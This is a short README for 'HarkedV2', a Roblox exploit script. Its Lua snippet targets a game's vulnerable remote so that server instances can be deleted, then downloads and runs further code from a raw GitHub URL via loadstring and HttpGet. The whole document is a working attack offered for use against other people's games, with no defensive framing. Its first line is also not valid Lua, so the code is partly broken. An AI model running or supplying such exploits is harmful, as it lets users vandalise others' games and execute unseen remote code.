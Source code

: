 # HarkedV2
Fixed version of 'Harked' by Harkinian. Made the ability to customize the deletion remote.

To run, edit the following script accordingly, and then execute:
```lua
local _G.rem = game.ReplicatedStorage.HouseChannel -- Change this to whatever remote is vulnerable for deletion

local function Delete(a: Instance)
    local args = { -- Change the arguments depending on how the remote works.
        [1] = a,
        [2] = true
    }
    
    if _G.rem:IsA("RemoteEvent") then
        _G.rem:FireServer(unpack(args))
    elseif _G.rem:IsA("RemoteFunction") then
        _G.rem:InvokeServer(unpack(args))
    elseif _G.rem:IsA("UnreliableRemoteEvent") then
        _G.rem:FireServer(unpack(args))
    end
end

_G.Delete = Delete

loadstring(game:HttpGet("https://raw.githubusercontent.com/qtip-rbxl/HarkedV2/main/main.lua", true))()
```
